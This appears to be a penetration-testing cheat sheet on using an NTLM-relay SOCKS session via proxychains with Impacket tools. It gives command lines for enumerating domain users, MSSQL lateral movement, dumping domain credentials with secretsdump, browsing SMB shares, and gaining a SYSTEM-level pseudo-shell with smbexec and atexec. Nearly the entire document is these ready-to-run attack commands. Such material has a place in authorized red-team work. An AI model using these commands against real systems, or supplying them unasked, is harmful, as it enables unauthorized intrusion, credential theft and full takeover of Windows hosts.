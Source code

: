 # SOCKS (with NTLM relay)

## Tools: proxychains , lookupsid , secretsdump , mssqlclient , impacket , smbclient

#### 1) lookupsid

    [proxychains] lookupsid.py DOMAIN/USER@IP -no-pass -domain-sids (Enumerate Users)

#### 2) mssqlclient

    [proxychains] mssqlclient.py -windows-auth DOMAIN/USER@IP -no-pass (MSSQL lateral movement)

#### 3) secretsdump

    [proxychains] secretsdump.py -no-pass 'DOMAIN'/'USER'@'IP' (See DC Sync)

#### 4) smbclient

    [proxychains] smbclient.py -no-pass USER@IP (Search for files)

# Pseudo-shell (File write and read)

    [proxychains] smbexec.py -no-pass DOMAIN/USER@IP

    [proxychains] atexec.py -no-pass DOMAIN/USER/IP "COMMAND"

## System/Admin access is granted with the shell being NT Authority/System
